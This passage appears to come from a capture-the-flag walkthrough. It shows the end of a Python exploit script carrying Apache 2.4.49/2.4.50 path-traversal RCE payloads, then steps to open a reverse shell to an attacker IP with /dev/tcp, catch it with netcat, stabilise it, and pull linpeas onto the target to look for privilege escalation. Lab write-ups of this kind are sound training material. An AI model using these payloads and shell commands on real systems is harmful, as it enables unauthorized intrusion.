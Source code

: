```
        else :
            print(Fore.RED + '\nTarget %s isn\'t vulnerable' % host)
    except KeyboardInterrupt:
        end()

def main():
    try:
        apache2449_payload = '/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash'
        apache2450_payload = '/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash'
        payloads = [apache2449_payload,apache2450_payload]
        choice = len(payloads) + 1
        print(header)
        print("\033[1;37m[0] Apache 2.4.49 RCE\n[1] Apache 2.4.50 RCE")
        while choice >= len(payloads) and choice >= 0:
            choice = int(input('[~] Choice : '))
            if choice < len(payloads):
                exploitRCE(payloads[choice])
    except KeyboardInterrupt:
            print("\n\033[1;91m[!] Bye bye !")
            time.sleep(0.5)
            sys.exit(1)

if __name__ == '__main__':
    main()
```

4. Run it with the required arguments, select `Apache 2.4.49 RCE`, and get a shell. This isn't a fully interactive shell, so run `sh -i >& /dev/tcp/<attacker ip>/4444 0>&1` on the server and catch the reverse shell with netcat `nc -nvlp 4444`. Then completely [stabilize the shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) with ssty
```
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

5. Now download linpeas onto your machine, host a simple http server with `python3 -m http.server`, and download it onto the `/tmp` folder of the attacker machine with `curl <url> > /tmp/linpeas.sh`. Run it and examine the output to find that this is running inside a docker container, and python has setuid capabilities set.
```
Files with capabilities (limited to 50):
/usr/bin/python3.7 = cap_setuid+ep
```
